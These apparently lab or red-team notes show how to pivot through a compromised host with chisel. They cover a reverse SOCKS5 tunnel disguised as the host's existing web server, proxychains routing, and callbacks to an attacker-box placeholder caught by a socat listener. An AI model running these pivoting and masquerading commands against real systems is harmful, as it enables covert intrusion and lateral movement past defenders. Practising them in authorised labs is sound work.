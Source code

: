 
#### Socks

```
[[ Chisel~Socks ]]*
ssh root@tom chmod +x ./chisel
ssh root@tom ss -punta
	#Do we already see a webserver here?  We can have chisel pretend to be this webserver with the `--backend` flag
ssh root@tom ./chisel server --backend http://127.0.0.1:8080 --socks5 --reverse --port 80 &
ssh root@tom ss -punta | grep 80
```

```
[[ Chisel~Callback ]]*
curl tom
curl tom:8080
	#The pages look the same right?  That is the --backend flag doing what it does.  If you have root access on the machine, it would be even better to move the legit webserver to only listen on loopback, and then have chisel listen on the public-facing interface.

lsof -i tcp:9050
	#Check to see that we don't have anything listening on port 9050
~/tools/chisel/chisel client tom:80 9050:socks &
lsof -i tcp:9050
	#Check to see that we have chisel listening on 9050

	#Fix up proxychains.conf if we haven't already
sudo sed -i 's:socks4:socks5:' /etc/proxychains4.conf

lsof -i tcp:4444
	#Check to make sure we have a listener ready.  If not, get it started:
	socat -u tcp-listen:4444,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
proxychains4 -q callMe.sh linux 80 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
	#Hopefully we got our callback and see a new entry in /tmp/PROOF
```

#### Local port forward

```
[[ Chisel~LocalForward ]]*
lsof -i tcp:9999
~/tools/chisel/chisel client tom:80 9999:linux:80 &
lsof -i tcp:9999
```

```
[[ Chisel~Callback ]]
lsof -i tcp:4444
	socat -u tcp-listen:4444,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
callMe.sh 127.0.0.1 9999 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
```
